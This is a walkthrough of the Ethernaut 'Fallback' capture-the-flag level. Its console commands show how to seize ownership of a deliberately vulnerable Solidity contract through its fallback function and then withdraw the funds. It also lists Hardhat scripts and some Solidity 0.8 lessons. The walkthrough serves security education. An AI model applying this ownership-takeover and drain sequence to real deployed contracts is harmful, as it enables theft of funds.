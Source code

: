 [1. Fallback](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)
---

## Walkthrough

```
// 1. Contribute to contract.
await contract.contribute({value:1})

// 2. Send a tx to triggers fallback.
sendTransaction({ to: contract.address, value: 1 })

// 3. verify owner
await contract.owner()

// 4. withdraw
await contract.withdraw()

// 5. confirm the check balance
await getBalance(instance) // same as getBalance(contract.address)
```

## Contracts

- `contract/Fallback.sol` - Original version from Ethernaut website.
- `contract/FallbackV2.sol` - Updated for solidity 0.8.0
  - Remove `SafeMath`
  - Update `payable` function

## Hardhat

- [01-fallback](/scripts/01-fallback.ts)
- [01-fallback-v2](/scripts/01-fallback-v2.ts)

```
npx hardhat run scripts/01-fallback.ts
npx hardhat run scripts/01-fallback-v2-ts
```

## Lesson Learned

- You don't need `SafeMath` for solidity `v0.8.0` + has built-in the overflow/underflow check.
- `address` and `address payable` is different. converted using explicit converstion `payable(address)`
- `contructor` no need to add `public` Visibility for constructor is ignored because contructor always call only once.